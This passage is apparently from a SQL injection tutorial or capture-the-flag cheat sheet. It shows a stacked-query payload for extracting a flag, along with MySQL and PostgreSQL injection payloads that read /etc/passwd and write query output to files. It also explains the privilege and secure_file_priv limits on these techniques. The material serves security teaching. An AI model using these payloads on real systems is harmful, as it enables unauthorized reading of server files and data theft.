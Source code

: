 Now that you know the table and the column, extract the data with a final stacked query:

```sql
target; SELECT flag FROM flag_table; --
```

```sql
target; SELECT flag FROM flag_table; --
```

---

## 📥 Reading and Writing Files

### MySQL

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT * INTO OUTFILE '/tmp/data.txt' FROM users;
```

### PostgreSQL

```sql
SELECT pg_read_file('postgresql.conf', 0, 1000);
```

### Reading and Writing Files

```sql
create table tmp(data text);
copy tmp from '/etc/passwd';
select * from tmp;
```

The pg_read_file() function reads files on the server filesystem (not client-side) and has the following valid forms:

```sql
pg_read_file(filename text [, offset integer, length integer [, missing_ok boolean]])
```

- filename: path relative to the data directory (you can't read arbitrary files).
- offset (optional): start position in bytes.
- length (optional): number of bytes to read.
- missing_ok (optional, PostgreSQL 13+): if true, returns NULL instead of error if file doesn't exist.

```sql
SELECT pg_read_file('postgresql.conf');  -- read full file
SELECT pg_read_file('postgresql.conf', 0, 1000);  -- first 1000 bytes
SELECT pg_read_file('postgresql.conf', 0, 1000, true);  -- ignore if missing
```

Only superusers can use pg_read_file(). If you run this as a normal user, you'll get a permission denied error.

In MySQL, we can read files using the LOAD_FILE() function. However, there is a catch. MySQL has a secure_file_priv system variable that restricts which directories can be used to read or write files. Some versions of MySQL do not set this variable by default, which means MySQL can potentially read or write any file (subject to OS file permissions). Setting the value to an empty string ("") is the same as leaving the value blank. Other versions, or hardened configurations, will set this variable to a specific directory. We can check the value of this variable with
